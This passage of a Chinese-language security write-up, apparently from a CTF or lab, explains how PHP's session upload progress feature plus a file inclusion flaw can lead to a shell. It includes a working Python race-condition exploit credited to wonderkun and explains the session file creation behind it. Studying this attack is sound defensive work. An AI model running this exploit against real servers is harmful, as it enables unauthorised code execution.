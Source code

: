 即可达到getshell的目的。

exp（by wonderkun）

```
#!coding:utf-8
 
import requests
import time
import threading
 
 
host = 'http://your-ip:8088/'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'
 
def creatSession():
    while True:
        files = {
        "upload" : ("tmp.jpg", open("/etc/passwd", "rb"))
        }
        data = {"PHP_SESSION_UPLOAD_PROGRESS" : "<?php echo md5('1');?>" }
        headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
        r = requests.post(host,files = files,headers = headers,data=data)
 
fileName = "/var/lib/php/sessions/sess_"+PHPSESSID
 
if __name__ == '__main__':
 
    url = "{}/index.php?file={}".format(host,fileName)
    headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
    t = threading.Thread(target=creatSession,args=())
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url,headers=headers)
        if "c4ca4238a0b923820dcc509a6f75849b" in res.content:
            print("[*] Get shell success.")
            break
        else:
            print("[-] retry.")
```





## 探讨问题

### 问题一：

代码里没有 session_start() ,如何创建session文件呢。

如果 session.auto_start=On ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get(“session.upload_progress.prefix”)+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。
